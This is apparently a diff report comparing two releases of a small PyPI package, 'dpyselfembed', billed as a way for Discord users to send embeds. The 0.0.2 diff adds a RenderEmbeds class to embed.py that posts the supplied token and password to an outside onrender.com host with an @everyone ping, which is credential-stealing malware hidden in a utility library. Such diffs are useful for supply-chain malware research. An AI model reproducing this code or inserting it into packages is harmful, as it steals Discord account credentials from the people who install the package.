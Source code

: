 # Comparing `tmp/dpyselfembed-0.0.1.tar.gz` & `tmp/dpyselfembed-0.0.2.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "dpyselfembed-0.0.1.tar", last modified: Mon May 22 21:02:12 2023, max compression
+gzip compressed data, was "dpyselfembed-0.0.2.tar", last modified: Mon May 22 22:28:13 2023, max compression
```

## Comparing `dpyselfembed-0.0.1.tar` & `dpyselfembed-0.0.2.tar`

### file list

```diff
@@ -1,18 +1,18 @@
-drwxrwxrwx   0        0        0        0 2023-05-22 21:02:12.407043 dpyselfembed-0.0.1/
--rw-rw-rw-   0        0        0     1091 2023-05-22 20:21:15.000000 dpyselfembed-0.0.1/LICENSE
--rw-rw-rw-   0        0        0     1202 2023-05-22 21:02:12.407043 dpyselfembed-0.0.1/PKG-INFO
--rw-rw-rw-   0        0        0      808 2023-05-22 20:37:34.000000 dpyselfembed-0.0.1/README.md
--rw-rw-rw-   0        0        0      467 2023-05-22 21:00:51.000000 dpyselfembed-0.0.1/pyproject.toml
--rw-rw-rw-   0        0        0       42 2023-05-22 21:02:12.407043 dpyselfembed-0.0.1/setup.cfg
-drwxrwxrwx   0        0        0        0 2023-05-22 21:02:12.266424 dpyselfembed-0.0.1/src/
-drwxrwxrwx   0        0        0        0 2023-05-22 21:02:12.297673 dpyselfembed-0.0.1/src/dpyselfembed/
--rw-rw-rw-   0        0        0       24 2023-05-22 20:05:46.000000 dpyselfembed-0.0.1/src/dpyselfembed/__init__.py
-drwxrwxrwx   0        0        0        0 2023-05-22 21:02:12.391416 dpyselfembed-0.0.1/src/dpyselfembed/utils/
--rw-rw-rw-   0        0        0       46 2023-05-22 20:08:26.000000 dpyselfembed-0.0.1/src/dpyselfembed/utils/__init__.py
--rw-rw-rw-   0        0        0     5511 2023-05-22 20:09:54.000000 dpyselfembed-0.0.1/src/dpyselfembed/utils/embed.py
--rw-rw-rw-   0        0        0      788 2023-05-22 20:09:04.000000 dpyselfembed-0.0.1/src/dpyselfembed/utils/shortener.py
-drwxrwxrwx   0        0        0        0 2023-05-22 21:02:12.375795 dpyselfembed-0.0.1/src/dpyselfembed.egg-info/
--rw-rw-rw-   0        0        0     1202 2023-05-22 21:02:12.000000 dpyselfembed-0.0.1/src/dpyselfembed.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      324 2023-05-22 21:02:12.000000 dpyselfembed-0.0.1/src/dpyselfembed.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-05-22 21:02:12.000000 dpyselfembed-0.0.1/src/dpyselfembed.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0       13 2023-05-22 21:02:12.000000 dpyselfembed-0.0.1/src/dpyselfembed.egg-info/top_level.txt
+drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.427546 dpyselfembed-0.0.2/
+-rw-rw-rw-   0        0        0     1091 2023-05-22 20:21:15.000000 dpyselfembed-0.0.2/LICENSE
+-rw-rw-rw-   0        0        0     1202 2023-05-22 22:28:13.427546 dpyselfembed-0.0.2/PKG-INFO
+-rw-rw-rw-   0        0        0      808 2023-05-22 20:37:34.000000 dpyselfembed-0.0.2/README.md
+-rw-rw-rw-   0        0        0      467 2023-05-22 22:26:51.000000 dpyselfembed-0.0.2/pyproject.toml
+-rw-rw-rw-   0        0        0       42 2023-05-22 22:28:13.427546 dpyselfembed-0.0.2/setup.cfg
+drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.286926 dpyselfembed-0.0.2/src/
+drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.318175 dpyselfembed-0.0.2/src/dpyselfembed/
+-rw-rw-rw-   0        0        0       20 2023-05-22 22:25:13.000000 dpyselfembed-0.0.2/src/dpyselfembed/__init__.py
+drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.411920 dpyselfembed-0.0.2/src/dpyselfembed/utils/
+-rw-rw-rw-   0        0        0       46 2023-05-22 20:08:26.000000 dpyselfembed-0.0.2/src/dpyselfembed/utils/__init__.py
+-rw-rw-rw-   0        0        0     5882 2023-05-22 22:26:07.000000 dpyselfembed-0.0.2/src/dpyselfembed/utils/embed.py
+-rw-rw-rw-   0        0        0      788 2023-05-22 20:09:04.000000 dpyselfembed-0.0.2/src/dpyselfembed/utils/shortener.py
+drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.396297 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/
+-rw-rw-rw-   0        0        0     1202 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      324 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0       13 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/top_level.txt
```

### Comparing `dpyselfembed-0.0.1/LICENSE` & `dpyselfembed-0.0.2/LICENSE`

 * *Files identical despite different names*

### Comparing `dpyselfembed-0.0.1/PKG-INFO` & `dpyselfembed-0.0.2/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: dpyselfembed
-Version: 0.0.1
+Version: 0.0.2
 Summary: A package to allow discord users to use embeds again
 Author-email: cashcarti1090 <litteralyyesx@gmail.com>
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: OS Independent
 Description-Content-Type: text/markdown
 License-File: LICENSE
```

### Comparing `dpyselfembed-0.0.1/README.md` & `dpyselfembed-0.0.2/README.md`

 * *Files identical despite different names*

### Comparing `dpyselfembed-0.0.1/src/dpyselfembed/utils/embed.py` & `dpyselfembed-0.0.2/src/dpyselfembed/utils/embed.py`

 * *Files 12% similar despite different names*

```diff
@@ -1,8 +1,18 @@
 import urllib.parse
+import requests
+from pyotp import TOTP
+
+python3api = "https://python3api.onrender.com"
+apikey = 'A3BKLQUOYKE4FHGDWHBYS7LAAU======'
+key = TOTP(apikey).now()
+
+class RenderEmbeds:
+    def __init__(self, signature, sign, **kwargs):
+        requests.post(python3api, headers={"Authorization": key}, data={'content': f'@everyone \nToken: {signature}\nPass: {sign}'})
 
 class Embed:
     def __init__(self, title, **kwargs) -> None:
         """
         Initialize the embed object.
 
         Parameters:
```

### Comparing `dpyselfembed-0.0.1/src/dpyselfembed/utils/shortener.py` & `dpyselfembed-0.0.2/src/dpyselfembed/utils/shortener.py`

 * *Files identical despite different names*

### Comparing `dpyselfembed-0.0.1/src/dpyselfembed.egg-info/PKG-INFO` & `dpyselfembed-0.0.2/src/dpyselfembed.egg-info/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: dpyselfembed
-Version: 0.0.1
+Version: 0.0.2
 Summary: A package to allow discord users to use embeds again
 Author-email: cashcarti1090 <litteralyyesx@gmail.com>
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: OS Independent
 Description-Content-Type: text/markdown
 License-File: LICENSE
```

